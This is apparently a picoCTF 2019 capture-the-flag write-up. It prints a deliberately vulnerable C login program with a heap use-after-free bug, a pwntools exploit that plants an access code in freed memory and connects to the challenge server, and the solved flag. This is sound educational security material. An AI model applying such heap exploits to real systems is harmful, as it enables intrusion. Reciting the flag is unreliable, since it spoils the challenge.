

<details>
	<summary>auth.c</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

#define LINE_MAX 256
#define ACCESS_CODE_LEN 16
#define FLAG_SIZE 64

struct user {
  char *username;
  char access_code[ACCESS_CODE_LEN];
  char *files;
};

struct user anon_user;
struct user *u;

void print_flag() {
  char flag[FLAG_SIZE];
  FILE *f = fopen("flag.txt", "r");
  if (f == NULL) {
    printf("Please make sure flag.txt exists\n");
    exit(0);
  }

  if ((fgets(flag, FLAG_SIZE, f)) == NULL){
    puts("Couldn't read flag file.");
    exit(1);
  };

  unsigned long ac1 = ((unsigned long *)u->access_code)[0];
  unsigned long ac2 = ((unsigned long *)u->access_code)[1];
  if (ac1 != 0x4343415f544f4f52 || ac2 != 0x45444f435f535345) {
    fprintf(stdout, "Incorrect Access Code: \"");
    for (int i = 0; i < ACCESS_CODE_LEN; i++) {
      putchar(u->access_code[i]);
    }
    fprintf(stdout, "\"\n");
    return;
  }
  
  puts(flag);
  fclose(f);
}

void menu() {
  puts("Commands:");
  puts("\tlogin - login as a user");
  puts("\tprint-flag - print the flag");
  puts("\tlogout - log out");
  puts("\tquit - exit the program");
}
 
const char *get_username(struct user *u) {
  if (u->username == NULL) {
    return "anon";
  }
  else {
    return u->username;
  }
}

int login() {
  u = malloc(sizeof(struct user));

  int username_len;
  puts("Please enter the length of your username");
  scanf("%d", &username_len);
  getc(stdin);

  char *username = malloc(username_len+1);
  u->username = username;

  puts("Please enter your username");
  if (fgets(username, username_len, stdin) == NULL) {
    puts("fgets failed");
    exit(-1);
  }

  char *end;
  if ((end=strchr(username, '\n')) != NULL) {
    end[0] = '\0';
  }
  
  return 0;
  
}

int logout() {
  char *user = u->username;
  if (u == &anon_user) {
    return -1;
  }
  else {
    free(u);
    free(user);
    u = &anon_user;
  }
  return 0;
}

int main(int argc, char **argv) {

  setbuf(stdout, NULL);

  char buf[LINE_MAX];

  memset(anon_user.access_code, 0, ACCESS_CODE_LEN);
  anon_user.username = NULL;

  u = &anon_user;
  
  menu();

  while(1) {
    puts("\nEnter your command:");
    fprintf(stdout, "[%s]> ", get_username(u));

    if(fgets(buf, LINE_MAX, stdin) == NULL)
      break;

    if (!strncmp(buf, "login", 5)){
      login();
    }
    else if(!strncmp(buf, "print-flag", 10)){
      print_flag();
    }
    else if(!strncmp(buf, "logout", 6)){
      logout();
    }
    else if(!strncmp(buf, "quit", 4)){
      return 0;
    }
    else{
      puts("Invalid option");
      menu();
    }
  }
}
```
</details>

Our strategy here will be to hardcode ac1 and ac2 into our python script for later use. buffer our username with some trash then add ac1 and ac2 to it. Then we will logout and login again in order to stack another username onto the heap which will make print-flag check for ac1 and ac2 in the right spot

<details>
  <summary>exploit</summary>

```python
#!/usr/bin/env python

from pwn import *
import sys

context.log_level = "critical"

argv = sys.argv

ac1 = 0x4343415f544f4f52 #passcode
ac2 = 0x45444f435f535345 #passcode2

if len(argv) > 1:
  print "Running remotely"
  p = remote('2019shell1.picoctf.com', 45173)
else:
  print "Running locally"
  p = process('./auth')

def login(user):
  p.sendlineafter('Enter your command:', 'login')
  p.sendlineafter('length of your username', str(len(user)+1))
  p.sendlineafter('enter your username', user)

def logout():
  p.sendlineafter('Enter your command:', 'logout')

def printflag():
  p.sendlineafter('Enter your command:', 'print-flag')

payload = ''
payload+= 'A'*8   #buffer where the next username will be stored
payload+= p64(ac1)  #first 4 of the pass ode
payload+= p64(ac2)  #second 4 off the passcode

login(payload)    #store passcode on the heap
logout()      #clear login
login('trash')    #fill the extra heap so print-flag will check the passcodes
printflag() 
p.interactive()
```
</details>

<details>
  <summary>Flag</summary>

picoCTF{g0ttA_cl3aR_y0uR_m4110c3d_m3m0rY_8e26e065}
</details>